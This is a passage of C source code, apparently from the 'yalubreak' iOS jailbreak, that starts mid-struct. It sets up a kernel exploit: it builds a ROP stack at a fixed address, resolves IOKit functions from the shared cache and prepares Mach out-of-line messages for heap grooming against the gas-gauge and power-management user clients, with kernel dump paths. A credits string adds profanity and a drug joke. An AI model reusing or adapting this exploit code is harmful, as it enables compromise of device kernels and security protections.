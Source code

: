         char mscratch[8192];
        char scratch[8192];
        mach_timespec_t waitTime;
    } args_t;
    
    args_t args_s;
    bzero(&args_s, sizeof(args_s));
    args_t* argss = &args_s;
    args_t* args_seg = (args_t*) 0x52000000;
    
#define m_m_scratch ((uint32_t)(&(args_seg->mscratch)[1024]))
#define PUSH (*stack++)
#define SEG_VAR(var) ((char*)(&(args_seg->var)))
#define SEG_VAR_(var, i) ((uint32_t)(&((args_seg->var)[i])))
    
    argss->waitTime.tv_sec = 10;
    argss->waitTime.tv_nsec = 10000000;
    
    argss->_io_service_get_matching_service = IOKIT_io_service_get_matching_service - _DYCACHE_BASE + 1;
    argss->_io_connect_method_scalarI_structureI = IOKIT_io_connect_method_scalarI_structureI - _DYCACHE_BASE + 1;
    argss->_IOServiceOpen = IOKIT_IOServiceOpen - _DYCACHE_BASE + 1;
    argss->_IOServiceClose = IOKIT_IOServiceClose - _DYCACHE_BASE + 1;
    argss->_IOServiceWaitQuiet = IOKIT_IOServiceWaitQuiet - _DYCACHE_BASE + 1;
    argss->_host_get_io_master = LS_K_host_get_io_master - _DYCACHE_BASE + 1;
    argss->oolmsg_template.header.msgh_bits = MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    argss->oolmsg_template.header.msgh_bits |= MACH_MSGH_BITS_COMPLEX;
    argss->oolmsg_template.header.msgh_local_port = MACH_PORT_NULL;
    argss->oolmsg_template.header.msgh_size = sizeof(oolmsg_t);
    argss->oolmsg_template.header.msgh_id = 1;
    argss->oolmsg_template.body.msgh_descriptor_count = 1;
    argss->oolmsg_template.desc.address = (void *)SEG_VAR(oolbuf);
    argss->oolmsg_template.desc.type = MACH_MSG_OOL_DESCRIPTOR;
    memcpy(&argss->oolmsg_template_2048, &argss->oolmsg_template, sizeof(oolmsg_t));
    memcpy(&argss->oolmsg_template_512, &argss->oolmsg_template, sizeof(oolmsg_t));
    
    argss->oolmsg_template_2048.desc.size = 2048 - 0x58;
    argss->oolmsg_template_512.desc.size = 512 - 0x58;
    argss->oolmsg_template.desc.size = 1024 - 0x58;
    
    memset(&argss->oolbuf[0], 0x0, 1024);
    uint32_t tmp;
    *stack++ = 0x44444444;
    *stack++ = m_m_scratch;
    
    strcpy(argss->initmsg, "yalubreak iso841 - Kim Jong Cracks Research\nCredits:\nqwertyoruiop - sb escape & codesign bypass & initial kernel exploit\npanguteam: kernel vulns\nwindknown: kernel exploit & knows it's stuff\n_Morpheus_: this guy knows stuff\njk9356: kim jong cracks anthem\nJonSeals: crack rocks supply (w/ Frank & haifisch)\nih8sn0w: <3\nposixninja: <3\nxerub <3\nits_not_herpes because thanks god it wasnt herpes\neric fuck off\nKim Jong Un for being Dear Leader.\nRIP TTWJ / PYTECH / DISSIDENT\nSHOUT OUT @ ALL THE OLD GANGSTAS STILL IN THE JB SCENE\nHEROIN IS THE MEANING OF LIFE\n\nBRITTA ROLL UP [no its not pythech!] \n[i] iomasterport: 0x%08x / gasgauge user client: 0x%08x\n");
    
    strcpy(argss->gasgauge_match, "<dict><key>IOProviderClass</key><string>AppleHDQGasGaugeControl</string></dict>");
    strcpy(argss->rootdomainuserclient_match, "<dict><key>IOProviderClass</key><string>IOPMrootDomain</string></dict>");
    strcpy(argss->a, "/var/mobile/Media/kjc_jb.log");
    strcpy(argss->b, "/var/mobile/Media/vm_map_dump");
    strcpy(argss->c, "/var/mobile/Media/kern_dump");
    strcpy(argss->msga, "found overlapping object\n");
    strcpy(argss->msgb, "found overlapped object\n");
    strcpy(argss->testmsg, "ret: %08x\n");
    